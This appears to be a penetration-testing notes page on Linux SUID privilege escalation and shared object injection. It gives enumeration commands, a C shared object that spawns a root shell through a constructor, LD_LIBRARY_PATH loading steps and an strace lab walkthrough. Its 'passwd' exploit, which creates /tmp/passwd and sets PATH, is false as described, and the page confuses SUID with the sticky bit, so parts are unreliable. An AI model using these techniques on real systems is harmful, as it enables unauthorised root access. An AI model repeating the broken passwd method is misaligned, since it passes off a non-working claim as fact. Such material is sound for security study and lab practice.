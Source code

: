 # 🛸 SUID

## SUID Privilege Escalation

SUID (Set User ID) is a special permission in Unix-like operating systems that allows users to execute a program with the permissions of its owner. When a binary has the SUID bit set, it runs with the privileges of the binary's owner, often allowing users to perform actions they wouldn't normally be able to do.

<figure><img src="https://miro.medium.com/v2/resize:fit:462/1*1r70GrNPiSPWmQnh7N-LSA.png" alt=""><figcaption></figcaption></figure>

### Understanding SUID

The SUID permission is represented by the numeric value 4 in the permission field of a file. When an executable file has the SUID bit set, it runs with the effective user ID (EUID) of the file's owner.

```bash
$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 54208 Nov  3  2022 /usr/bin/passwd
```

In the example above, `/usr/bin/passwd` has the SUID bit set. The 's' in the owner's execute permission (`-rwsr-xr-x`) indicates the SUID bit.

### Exploiting SUID for Privilege Escalation

#### 1. Identifying SUID Binaries

```bash
$ find / -type f -perm -4000 2>/dev/null
```

This command lists all files on the system with the SUID bit set. Pay attention to binaries owned by root, as they may provide an opportunity for privilege escalation.

#### 2. Checking Vulnerabilities

Some SUID binaries may have vulnerabilities or misconfigurations that can be exploited. Commonly misconfigured binaries include editors, interpreters, and custom scripts.

```bash
$ strings /path/to/suid_binary
$ ltrace /path/to/suid_binary
$ strace /path/to/suid_binary
```

These commands help analyze the behavior of the binary, providing insights into its functionality and potential vulnerabilities.

Once you found all the files that have the sticky bytes, compare it to the gtfobins database to see which one are vulnerable to known exploits:&#x20;

<figure><img src="../../../../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

#### 3. Exploiting Vulnerabilities

**Example: Exploiting `passwd`**

```bash
$ echo 'root::0:0:root:/root:/bin/bash' > /tmp/passwd
$ PATH=/tmp /usr/bin/passwd
```

In this example, a writable `/tmp/passwd` file is created, and the `PATH` environment variable is manipulated to make `/usr/bin/passwd` use the local directory for executable files. This allows an attacker to change the root user's password without knowing the current password.

#### 4. Using Scripts and Tools

Several tools and scripts automate the process of identifying and exploiting SUID binaries. Examples include [GTFOBins](https://gtfobins.github.io/) and [LinEnum](https://github.com/rebootuser/LinEnum).

### Shared Object Injection <a href="#lecture_heading" id="lecture_heading"></a>

Shared Object Injection is a technique where an attacker exploits the dynamic linking functionality in Unix-based systems to load and execute malicious shared objects (shared libraries). By manipulating the loading process of shared objects, an attacker can achieve privilege escalation and execute arbitrary code with elevated permissions.

#### Understanding Shared Objects

Shared objects, also known as shared libraries, are files containing compiled code and data that multiple programs can use simultaneously. These libraries are loaded at runtime and linked dynamically to the executing process.

#### Identifying Shared Objects

Shared objects typically have file extensions like `.so` on Linux systems. They can be found in directories such as `/lib`, `/lib64`, `/usr/lib`, and others.

```bash
$ find /lib /lib64 /usr/lib -name "*.so*"
```

#### Exploiting Shared Object Injection

#### 1. Identifying Vulnerable Programs

Look for programs that load shared objects without specifying the full path. These programs are susceptible to shared object injection.

```bash
$ ldd /path/to/binary
```

#### 2. Creating a Malicious Shared Object

Write a shared object with malicious code. For example, create a file named `malicious.so` with the following:

<pre class="language-c"><code class="lang-c">// malicious.c
#include &#x3C;stdio.h>
#include &#x3C;stdlib.h>

__attribute__((constructor)) void init() {
    system("/bin/bash");
<strong>}
</strong></code></pre>

Compile it:

```bash
$ gcc -fPIC -shared -o malicious.so malicious.c
```

#### 3. Exploiting the Vulnerability

Place the malicious shared object in a directory that is part of the target binary's library search path.

```bash
$ export LD_LIBRARY_PATH=/path/to/directory/containing/malicious.so
$ /path/to/vulnerable/binary
```

#### Real world test:

we know which file to attack in this example:

<figure><img src="../../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

We are curious to know what this file does:

```
strace /usr/local/bin/suid-so
```

<figure><img src="../../../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

What we hunt for are those "No such file or directory" error messages and write down what file it's trying to access. We can grep on this:

```
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

<figure><img src="../../../../.gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>

Our goal is to overwrite a file that is being called but does not exist, such as libcalc.so and inject malicious code in those files
